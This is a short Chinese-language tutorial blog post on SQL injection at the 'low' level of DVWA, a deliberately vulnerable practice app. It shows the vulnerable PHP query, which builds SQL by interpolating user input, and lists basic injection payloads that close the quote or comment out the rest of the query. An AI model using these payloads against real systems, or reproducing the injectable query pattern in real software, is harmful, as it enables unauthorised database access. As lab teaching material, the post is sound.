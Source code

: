 ```yaml
---
layout: post
title: "DVWA SQL Injection (教學用)"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_SQL_Injection
author: ""
tags: ['DVWA', 'SQL_Injection']
---
```




# DVWA　SQL Injection (教學用)
###### tags: `DVWA`




## low


### code 
```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

### 猜測語句
字串型 or 數字型
```
select * from table where id = 1

select * from table where id = '1'

```

### 閉合注入
(發現 字串型 可以注入) 
```
1' or '1

' or '1
```




### version 
大概猜測出來是 mysql 
```
1' or 1 #

1' or 1 --(一個空白)

// +號會被轉成 %2B 所以需要用 BP 修改
1' or 1 --+

```
